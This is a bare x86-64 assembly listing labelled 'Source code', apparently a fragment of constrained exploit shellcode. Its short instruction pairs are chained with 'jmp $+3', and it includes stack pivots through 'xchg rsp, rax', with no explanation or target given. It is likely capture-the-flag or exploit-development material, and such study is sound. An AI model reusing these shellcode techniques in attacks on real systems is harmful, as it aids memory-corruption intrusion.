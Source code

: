 ```

add al, 0x01
jmp $+3

shl eax, cl 
jmp $+3

add al, 0x97
jmp $+3

shl eax, cl 
jmp $+3

add al, 0xb8
jmp $+3

shl eax, cl 
jmp $+3

add al, 0x50
jmp $+3

add ebx, eax
jmp $+3

push rax
push rax
jmp $+3

push rax
push rbx
jmp $+3

xchg rsp, rax
jmp $+3

add al, 0xc
jmp $+3

xor ecx, ecx
jmp $+3

not ecx
jmp $+3

xchg rsp, rax
jmp $+3

push rcx
nop
jmp $+3

xchg rsp, rax
jmp $+3

sub al, 0x4
jmp $+3

xchg rsp, rax
jmp $+3

pop rdi
pop rax
```